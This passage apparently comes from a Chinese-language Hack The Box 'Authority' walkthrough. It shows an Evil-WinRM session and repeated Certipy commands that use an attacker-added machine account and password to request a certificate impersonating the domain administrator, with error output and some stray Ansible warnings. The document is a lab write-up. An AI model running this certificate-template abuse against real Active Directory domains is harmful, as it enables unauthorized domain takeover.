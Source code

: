 目标机器确认：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net group "Domain Computers"
Group name     Domain Computers
Comment        All workstations and servers joined to the domain

Members

-------------------------------------------------------------------------------
TEST$
The command completed successfully.
```

#### Abuse by Certipy

我们当前用户是 `svc_ldap`，而要利用的用户是我们自己添加的机器账户 `TEST$`。看了下Certify似乎只能用当前用户冒充其他用户（如管理员）。所以使用[hacktrick](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#abuse)上说的另一个工具：Certipy。

根据[github文档](https://github.com/ly4k/Certipy#installation)安装Certipy：`pip3 install certipy-ad`。  
加入PATH：`export PATH=~/.local/bin:$PATH`。

##### 小插曲：迷之报错

```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 5
Would you like to save the private key? (y/N) 
[-] Failed to request certificate

                                                                                                         
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 6
Would you like to save the private key? (y/N) y
[*] Saved private key to 6.key
[-] Failed to request certificate


┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 7
Would you like to save the private key? (y/N) 
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available